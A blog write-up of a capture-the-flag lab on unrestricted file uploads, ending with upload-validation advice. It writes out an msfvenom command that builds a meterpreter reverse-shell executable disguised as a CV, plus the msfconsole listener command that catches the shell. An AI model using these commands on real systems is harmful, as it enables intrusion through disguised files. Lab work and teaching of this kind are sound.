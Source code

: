 ```yaml
---
layout: single
title: "[Day 15] Secure Coding Santa is looking for a Sidekick"
header:
  teaser: "/assets/images/hacking-teaser.JPG"
---
```


# Unrestricted File Uploads

Almost every website provides the ability to upload files. If there is not input validation it can go really wrong. 

Two possible paths: 
1. If the attacker can retrieve the uploaded file again it could lead to code execution, if the attacker uploads a webshell. 
2. If the file is later on viewed by a user, the attacker can embed malware that executes on the users browser.

When uploaded files are put in webroot, it is a whole other story, as for example a .net webserver would pick up these files if the ending is ASP, ASPX or CSHTML and serve it as resources.

# Task
In this case we can upload cv files which will then be reviewed by an employee. 

This create a malicious CV:
```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT="Listening port" -f exe -o cv-username.exe```
![malicious file](/assets/images/tryhackme/day15/creating-malicious-exe.PNG)

This will create a listener in msfconsole: 
![listener](/assets/images/tryhackme/day15/msfconsole-listener.PNG)

Set listening port to: 4444
As using attackBox, setting the LHOST to "eth0"
```sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 'listening port'; exploit"```

Thats how it looks like when it worked. 
![listener got shell](/assets/images/tryhackme/day15/msfconsole-listener-session-created.PNG)


Now this will directly open a meterpreter session. 

```pwd```

Then moving to the Documents folder of the elf user 
```cd, ls```

Then opening the flag with ```cat```
![cat](/assets/images/tryhackme/day15/users-home.PNG)

# secure development
To prevent such things we need to implement: 

* File Content Validation (Check Content-Type)
* File Extension Validation (Whitelist extensions)
* File Size Validation
* File Renaming (Put random part into your new filename)
* Malware Scanning


